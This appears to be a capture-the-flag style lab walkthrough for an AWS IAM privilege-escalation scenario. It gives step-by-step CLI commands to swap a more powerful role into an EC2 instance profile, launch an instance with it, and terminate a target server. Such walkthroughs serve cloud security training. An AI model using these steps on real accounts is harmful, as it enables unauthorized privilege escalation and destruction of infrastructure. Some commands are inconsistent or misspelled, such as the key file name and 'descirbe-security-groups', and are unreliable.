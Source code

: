 # IAM Privilege Escalation by Attachement

Goal: Delete the EC2 instance "cg-super-critical-security-server."

# Walk Through

## Login 
Login to the user
```
aws configure --profile kerigan
aws sts get-caller-identity --profile kerigan
```
## Identify exisiting ec2 instance role 
```
aws ec2 describe-instances --output json --region us-east-1 --profile kerigan --filters Name=instance-state-name,Values=running


aws iam list-roles --profile kerigan > roles.json

aws iam list-instance-profiles --profile kerigan
Get instance profile name and role to attach to instance profile
```
## Attach admin managed policy on ec2 instance role
```
aws iam remove-role-from-instance-profile --instance-profile-name cg-ec2-meek-instance-profile-iam_privesc_by_attachment_cgiddbdjjsvchf --role-name cg-ec2-meek-role-iam_privesc_by_attachment_cgiddbdjjsvchf --profile kerigan

aws iam add-role-to-instance-profile --instance-profile-name cg-ec2-meek-instance-profile-iam_privesc_by_attachment_cgiddbdjjsvchf --role-name cg-ec2-mighty-role-iam_privesc_by_attachment_cgiddbdjjsvchf --profile kerigan
```
## Create a new key pair
```
aws ec2 create-key-pair --key-name pwned --profile kerigan --query 'KeyMaterial' --output text > pwned.pem
chmod 400 keypair.pem

aws ec2 describe-subnets --profile kerigan
aws ec2 descirbe-security-groups --profile kerigan
aws ec2 run-instances --image-id ami-0a313d6098716f372  --instance-type t2.micro --iam-instance-profile Name=cg-ec2-meek-instance-profile-iam_privesc_by_attachment_cgiddbdjjsvchf --key-name pwned --profile kerigan --subnet-id subnet-08b3514ec1dea0381 --security-group-ids sg-01735ee184560070b


ssh -i keypair.pem ubuntu@<ip of instance>

```
## Install aws cli tools and terminate instance of super server
```
sudo apt-get update
sudo apt-get install awscli
aws ec2 describe-instances --region us-east-1 --filters Name=instance-state-name,Values=running

aws ec2 terminate-instances --instance-ids i-03b0e378a59956c35 --region us-east-1
```
